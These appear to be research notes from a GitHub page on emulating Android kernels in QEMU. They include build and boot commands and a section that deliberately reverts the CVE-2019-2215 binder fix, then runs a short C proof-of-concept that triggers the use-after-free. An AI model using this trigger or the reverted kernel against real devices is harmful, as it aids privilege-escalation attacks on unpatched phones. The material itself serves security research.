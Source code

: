 # Android-kernel-emulation-with-QEMU

We are going to try all the iterations of the android kernel in order to understand the compatibility of emulator.

In that case, we will start working with cloudfuzz‘s android kernel that works on Android10, Pixel2 XL.

repo init --depth=1 -u https://android.googlesource.com/kernel/manifest -b q-goldfish-android-goldfish-4.14-dev

repo sync -c --no-tags --no-clone-bundle -jnproc

On qemu it worked

https://fadeevab.com/build-android-kernel-and-run-on-qemu-minimal-step-by-step/

![image](https://github.com/user-attachments/assets/75181210-9c46-4c90-885d-8573b7dc6c07)

## android13-5.15

Pulling the common android kernel

make defconfig

make kvm_guest.config

wget https://storage.googleapis.com/syzkaller/wheezy.img

qemu-system-x86_64 -m 1G -kernel arch/x86/boot/bzImage -hda wheezy.img -append "root=/dev/sda" -nographic

WORKED

It worked for different branch names too 

![image](https://github.com/user-attachments/assets/759ebcd5-015f-49c3-a43f-9e290e4ba398)

![image](https://github.com/user-attachments/assets/b8b40d78-850a-48ea-b6b7-2fd9451d1bb4)


Without kvm_guest.config it worked.

## ASB

On Ubuntu 18.04.6 LTS

![image](https://github.com/user-attachments/assets/0cca0f09-3e5a-4d6e-964d-a0e0b38e6dd3)

Enabled CONFIG_BINDER_IPC and KASAN manually.
Patched the vulnerability manually which is mentioned here.

https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2019/CVE-2019-2215.html

![image](https://github.com/user-attachments/assets/7af84431-26a5-45af-a996-2289af1c0a6b)

I commented out the green region on the kernel and commented out a few lines for iovec’s usage for exploitation.

![image](https://github.com/user-attachments/assets/d6124dba-9351-4db9-8c5c-788f9a3f927e)


The kernel is ASB-2019-11-05_mainline

Booted up with qemu as i mentioned above

PoC compiled with direct gcc on the VM machine because its x86 kernel is running on the qemu.
```
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };
                
        fd = open("/dev/binder", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}
```

I pulled the PoC by wget and SimpleHTTPServer to the machine.

We got the KASAN report when I run the PoC

![image](https://github.com/user-attachments/assets/3ae12257-1f5b-4888-81bc-67ccdc1e9939)


I tried to run CVE-2019-2215 LPE on the qemu and i got it this.

![image](https://github.com/user-attachments/assets/8e550e2b-29b0-4f6a-843e-d739eb45ca15)


Let’s try to make it works.

## Side note:

I couldn’t emulate any android kernel with android configs. I can enable the binder manually, but other environments demand different needs that QEMU cannot supply. For this reason, if you are working on a specific device’s kernel or specific config file you have to have the device or customized QEMU which could be the emulator or the cuttlefish. In that case, we have a few public sources:

https://www.youtube.com/watch?v=kJVy6LRMNyE

https://sites.google.com/junsun.net/how-to-run-cuttlefish/home

